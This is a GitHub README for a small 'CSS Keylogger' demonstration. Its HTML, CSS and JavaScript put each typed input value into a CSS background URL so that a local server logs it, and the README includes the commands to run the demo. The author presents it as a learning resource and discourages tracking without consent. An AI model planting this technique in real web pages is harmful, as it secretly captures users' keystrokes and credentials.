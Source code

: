 ## CSS Keylogger

This is just a simple **demostration** of how a website could keep track of user interaction via **CSS variables** and url selector values.

By using the **required** attribute for the input text, we can just use a **CSS selector** which validates wether the input text is present calling the url('serverURL') every keyup event.

Every time the user enters some value, the new url for the background is updated via js.

**Note: This code should be used as a learning resource and user tracking without its consent should be discouraged totally.**


## Demo
![](demo.gif)


## index.html

```
    <div>
        <input type="text" id="userText" name="userText" required />
    </div>
```

## main.css

```
:root{
    --keyLogURL: url('http://localhost:3000/user-input');
}


input:valid {
    background: var(--keyLogURL);
    color:green;
}

```

## Javascript ( No AJAX or HTTP request)

```
    // Changing the value of the CSS variable with the new text value
    const inputText = document.getElementById('userText');
    const endpoint = 'user-input';
    const cssVar = '--keyLogURL';
    inputText.addEventListener("keyup", e => {
        const value = e.target.value;
        const cssURL = getComputedStyle(document.documentElement)
            .getPropertyValue(cssVar);
        const cssURLSliced = cssURL.slice(0, cssURL.indexOf(endpoint)) + endpoint;
        const root = document.documentElement;
        root.style.setProperty(cssVar, `${cssURLSliced}?z=${value}`);
    });
```

## How to run the demo

### Install dependencies
```
$ git clone https://github.com/axelgalicia/css-tracking.git
$ npm install
$ npm start
```

Then open the index.html using a server or using Go Live from VS Code and type something. 

Server will capture it.


*Author:* Axel Galicia

Date: May 12, 2019